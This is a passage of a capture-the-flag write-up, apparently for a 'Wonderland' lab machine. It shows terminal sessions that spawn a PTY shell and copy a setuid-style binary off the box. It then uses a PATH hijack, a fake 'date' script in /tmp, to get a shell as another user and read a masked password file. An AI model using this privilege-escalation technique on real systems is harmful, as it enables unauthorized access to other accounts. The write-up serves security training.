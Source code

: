 ```terminal
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
rabbit@wonderland:/home/rabbit$ ls
teaParty

rabbit@wonderland:/home/rabbit$ cp teaParty /dev/shm/

➜  wonderland scp -r alice@$IP:/dev/shm/teaParty teaParty
alice@10.10.113.230's password:
teaParty                                                             100%   16KB  16.3KB/s   00:01
```

When I run strings against the file to analyze the binary, I found 1 line that mentioned `date` being called but it doesn't specify the path to it. 

Checking the path

```terminal
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```
As we can see there are multiple `/bin` at the end, if we created a file called `date`, the system will find that file before getting to `/bin`, and we need to make sure that system will call our date file.

```terminal
rabbit@wonderland:/home/rabbit$ export PATH=/tmp:$PATH
rabbit@wonderland:/home/rabbit$ echo '#!/bin/bash' > /tmp/date
rabbit@wonderland:/home/rabbit$ echo '/bin/bash' >> /tmp/date
rabbit@wonderland:/home/rabbit$ chmod 777 /tmp/date
```

And run the file again

```terminal
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
hatter@wonderland:/home/rabbit$ whoami
hatter
```
There is only 1 file in `hatter` directory, a credential for ssh I believe.

```terminal
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
*****************************************
```

## **<span style='color:#ff5555'>Road to ROOT</span>**
***
